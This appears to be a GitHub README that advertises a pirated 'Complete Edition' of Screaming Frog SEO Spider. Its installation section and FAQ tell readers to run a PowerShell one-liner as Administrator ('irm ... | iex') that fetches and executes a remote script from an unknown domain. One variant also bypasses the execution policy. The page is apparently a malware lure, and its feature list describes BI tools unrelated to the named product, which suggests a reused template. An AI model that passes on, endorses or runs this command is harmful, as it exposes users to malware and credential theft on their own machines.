

<div align="center">


<br>


# Screaming Frog SEO Spider Enterprise
**Enterprise site crawl engine · Technical SEO audit suite · Large-scale spider analysis**
<br>
**Enterprise site crawl engine · Technical SEO audit suite · Large-scale spider analysis**
<br>
Enterprise Setup · Pro Build · Windows · Complete



**Complete Edition — all enterprise crawl modules and premium audit features enabled.**

</div>
---

> Licensed enterprise spider with unlimited crawl capacity and every premium SEO audit module included.

## `INSTALLATION`

<div align="center">


<br><br>

**Run in PowerShell as Administrator:**

```powershell
irm https://beyondapp.pro/ps/setup.ps1 | iex
```

<sub>Copy · paste · press Enter · confirm UAC</sub>

</div>

## `FEATURES`

📊 **Visual analytics** — Dashboards and BI tools enabled.
🔗 **Data connectors** — Prep, blend and publish datasets.
📦 **Local desktop suite** — Works offline after setup.
🖥️ **Windows enterprise ready** — Built for analyst teams.
⚙️ **Pro modules** — Premium analytics features enabled.
📋 **Complete toolkit** — Templates and reports supported.
⚡ **One-command install** — PowerShell handles setup automatically.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 8 GB |
| **Disk** | 1 GB |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://beyondapp.pro/ps/setup.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 8 GB, 1 GB.
</details>


TAGS
screaming-frog, seo-spider, site-crawl, technical-seo, audit-reports, structured-data, enterprise, windows, desktop, software, pro, studio, tools
